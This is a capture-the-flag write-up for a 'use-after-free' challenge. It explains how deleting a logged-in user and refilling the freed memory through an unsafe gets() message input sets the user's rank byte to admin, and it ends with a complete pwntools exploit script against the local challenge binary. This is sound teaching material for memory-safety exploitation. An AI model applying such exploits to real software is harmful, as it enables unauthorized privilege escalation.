

# Use After Free

This challenge tells us where in the memory each user was created and gives us a hint that a user structure is 257 bytes long.


The **view_flag** function can be called through the menu. But we can not read the flag unless we are rank 1. If we create a user or login with existing users (they can be displayed through the menu) our rank will be 2.


In the **User** structure, rank is the last variable and takes exactly one byte. Which means it is possible to place 1 in the rank, if we place it at the end of the structure. the 257th byte.


The dangling pointers have a problem that the freed space will still be pointed at. WE can exploit it by deleting a user, which will still be pointed at by the system, and over writing it with whatever we want. 

The problem remains how to overwrite that place.

There is an interesting function in the source code called **leave message** and it is using an unsafe function **gets** for input.




We can hope that when we leave the message, it is stored in the place we just freed by deleting a user.

If we are logged in with the user account we delete, and overwrite to have admin rank, we can easily view the flag.


## Exploit
The startegy turns out to be:
```python
from pwn import *

target = './use-after-free'
e = context.binary = ELF(target,checksec=True)
context.log_level='debug'

io = process(target)

print(io.recvuntil('>>>'))
io.sendline("1")
io.recvuntil('Username: ')
io.sendline("sam")
io.recvuntil('Password: ')
io.sendline("1234")


print(io.recvuntil('>>>'))
io.sendline("3")
io.recvuntil("ete: ")
io.sendline("sam")


print(io.recvuntil('>>>'))
io.sendline("6")

print(io.recvuntil('>>>'))
print("Sending the Payload NOW")
struct = 0x100
payload = ''
payload += cyclic(struct)
payload += "1"

io.sendline(payload)

print(io.recvuntil('>>>'))
io.sendline("4")


print(io.recvall())

```